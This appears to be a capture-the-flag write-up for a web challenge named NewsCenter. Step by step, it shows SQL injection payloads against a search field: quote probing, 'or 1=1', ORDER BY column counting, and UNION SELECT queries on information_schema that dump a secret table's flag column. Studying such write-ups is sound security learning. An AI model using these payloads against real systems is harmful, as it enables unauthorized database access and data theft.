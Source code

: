 # NewsCenter

![Screenshot from 2021-07-24 22-33-50](https://user-images.githubusercontent.com/87865134/126873468-6659aa6d-5d89-4f46-8c3c-c595dca0f36b.png)

- **Maybe SQLi, XSS**
- **Test SQLi:** 
  - search: `'` => 500 status code
  - search: `' or 1=1 #` => show all post
    - > SQLi

- **How many fields?**
  - `1' order by 4` => 500 status code
  - `1' order by 3` => have result
    - > 3 fields

- **Check type of fields**
  - `' union select 'a', 'b', 'c' #` => have result
    - > varchar

- **Show all tables in this database**
  ```
  ' union select null, table_name, null from information_schema.tables #
  ```
  - > found ***secret_table***
 
 ![Screenshot from 2021-07-24 22-46-43](https://user-images.githubusercontent.com/87865134/126873850-d9469627-9e31-4981-b656-a0f6f5640d9d.png)
 
- **Find name column of** ***secret_table***
 ```
 ' union select null, column_name, null from information_schema.columns where table_name='secret_table' #
 ```
 - > 2 columns: id, fl4g

![Screenshot from 2021-07-24 22-49-51](https://user-images.githubusercontent.com/87865134/126873902-5a910eef-c44a-4e96-b161-dbd14160a287.png)

- **Get content of table** ***secret_table***
 ```
 a' union select null, fl4g, null from secret_table #
 ```
 - > Got flag

![Screenshot from 2021-07-24 22-51-15](https://user-images.githubusercontent.com/87865134/126873958-5873414c-110e-437f-8a55-04ef544ea53d.png)


### - Desciption:
> **category**: SQL injection 
 
